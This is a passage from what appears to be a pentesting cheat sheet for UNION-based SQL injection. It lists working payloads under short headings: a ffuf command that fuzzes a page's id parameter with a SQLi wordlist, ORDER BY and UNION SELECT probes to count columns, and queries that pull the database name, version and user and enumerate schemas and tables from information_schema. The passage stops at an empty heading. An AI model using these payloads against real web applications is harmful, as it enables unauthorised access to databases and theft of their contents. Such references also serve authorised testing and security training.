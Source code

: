 ```
' UNION SELECT 1,2,3--
```

## Fuzz GET parameters for SQL injection with ffuf

```bash
ffuf -u http://$IP/page.php?id=FUZZ -w /usr/share/wordlists/seclists/Fuzzing/SQLi/Generic-SQLi.txt
```

## Determine number of columns with ORDER BY

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
```

## Determine number of columns with UNION SELECT

```
' UNION SELECT 1--
' UNION SELECT 1,2--
' UNION SELECT 1,2,3--
' UNION SELECT 1,2,3,4--
```

## Extract database name and version

```
' UNION SELECT 1,database(),version()--
```

## Extract database name and user

```
' UNION SELECT 1,database(),user()--
```

## Enumerate all databases

```
' UNION SELECT 1,schema_name,3 FROM information_schema.schemata--
```

## Enumerate tables in database

```
' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema='database_name'--
```

## Enumerate tables in current database
